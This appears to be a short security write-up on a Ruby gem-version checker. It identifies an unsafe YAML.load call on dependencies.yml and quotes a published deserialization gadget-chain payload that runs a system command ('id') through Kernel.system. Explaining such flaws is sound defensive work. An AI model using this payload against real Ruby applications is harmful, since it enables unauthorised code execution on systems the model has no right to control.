 ```ruby
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

This line is vulnerable :

```ruby
    YAML.load(File.read("dependencies.yml"))
```

The builtin Ruby YAML parser, it is vulnerable to deserialization attacks if YAML.load() or YAML.load_file() is used.

The file `dependencies.yml` can be in any directory.

A possible exploit is given [here](https://snyk.io/blog/finding-yaml-injection-with-snyk-code/) :


```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```
